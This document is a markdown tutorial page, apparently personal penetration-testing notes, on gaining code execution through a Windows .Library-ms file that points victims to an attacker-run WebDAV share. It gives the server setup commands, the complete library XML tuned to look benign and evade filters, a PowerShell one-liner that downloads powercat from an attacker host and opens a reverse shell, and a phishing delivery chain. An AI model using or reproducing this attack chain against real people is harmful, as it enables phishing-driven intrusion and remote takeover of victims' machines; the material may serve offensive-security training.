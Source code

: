 ```yaml
---
layout: default
---
```

# Obtaining Code Execution via Windows Library Files

Windows library files are virtual containers for user content. They connect users with data stored in remote locations like web services or shares. These files have a .Library-ms file extension and can be executed by double-clicking them in Windows Explorer.

we'll create a Windows library file connecting to a WebDAV1 share we'll set up. In the first stage, the victim receives a .Library-ms file, perhaps via email. When they double-click the file, it will appear as a regular directory in Windows Explorer. In the WebDAV directory, we'll provide a payload in the form of a .lnk shortcut file for the second stage to execute a PowerShell reverse shell. We must convince the user to double-click our .lnk payload file to execute it.

```
kali@kali:~$ pip3 install wsgidav

kali@kali:~$ apt install python3-wsgidav
```
>> If the installation of WsgiDAV fails with error: externally-managed-environment, we can use a virtual environment3 or install the package python3-wsgidav with apt. In PEP 668,4 a change was introduced to enforce the use of virtual environments and prevent situations in which package installations via pip break the operating system.


```
kali@kali:~$ mkdir /home/kali/webdav

kali@kali:~$ touch /home/kali/webdav/test.txt

kali@kali:~$ /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
* * *
* * *
let's create the Windows library file

Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations. The parts are General library information, Library properties, and Library locations

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">


</libraryDescription>
```

The name9 tag specifies the name of this library. We must not confuse this with an arbitrary name we can just set randomly. We need to specify the name of the library by providing a DLL name and index. We can use @shell32.dll,-34575 or @windows.storage.dll,-34582 as specified on the Microsoft website. We'll use the latter to avoid any issues with text-based filters that may flag on "shell32". The version10 tag can be set to a numerical value of our choice, for example, 6.

```
<name>@windows.storage.dll,-34582</name>
<version>6</version>
```
we'll add the isLibraryPinned11 tag. This element specifies if the library is pinned to the navigation pane in Windows Explorer. For our targets, this may be another small detail to make the whole process feel more genuine and therefore, we'll set it to true. The next tag we'll add is iconReference,12 which determines what icon is used to display the library file. We must specify the value in the same format as the name element. We can use imagesres.dll to choose between all Windows icons. We can use index "-1002" for the Documents folder icon from the user home directories or "-1003" for the Pictures folder icon. We'll provide the latter to make it look more benign.

```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
```
 let's add the templateInfo13 tags, which contain the folderType14 tags. These tags determine the columns and details that appear in Windows Explorer by default after opening the library. We'll need to specify a GUID that we can look up on the Microsoft documentation15 webpage. For this example, we'll use the Documents GUID to appear as convincing as possible for the victim.

```
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```
The next tag marks the beginning of the library locations section. In this section, we specify the storage location where our library file should point to. We'll begin by creating the searchConnectorDescriptionList,16 tag which contains a list of search connectors17 defined by searchConnectorDescription.18 Search connectors are used by library files to specify the connection settings to a remote location. We can specify one or more searchConnectorDescription elements inside the searchConnectorDescriptionList tags. For this example we only specify one.

Inside the description of the search connector, we'll specify information and parameters for our WebDAV share. The first tag we'll add is the isDefaultSaveLocation19 tag with the value set to true. This tag determines the behavior of Windows Explorer when a user chooses to save an item. To use the default behavior and location, we'll set it to true. Next, we'll add the isSupported tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility. We can set it to false.

The most important tag is url,20 which we need to point to our previously-created WebDAV share over HTTP. It is contained within the simpleLocation21 tags, which we can use to specify the remote location in a more user-friendly way as the normal locationProvider22 element.

```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<ip></url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```
The Entire XML  we will save it as config.Library-ms

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<ip></url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

we'll need to create the shortcut file. The goal is to start a reverse shell by putting the .lnk shortcut file on the WebDAV share for the victim to execute.

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:8000/powercat.ps1');
powercat -c <ip> -p 4444 -e powershell"
```

put the .lnk and config.Library-ms in webdav dir 

* * *
* * *
## ATTACK CHAIN

* send config.library-ms via mail or smb
* user click on the file and execute the rev shell by executing our .lnk file
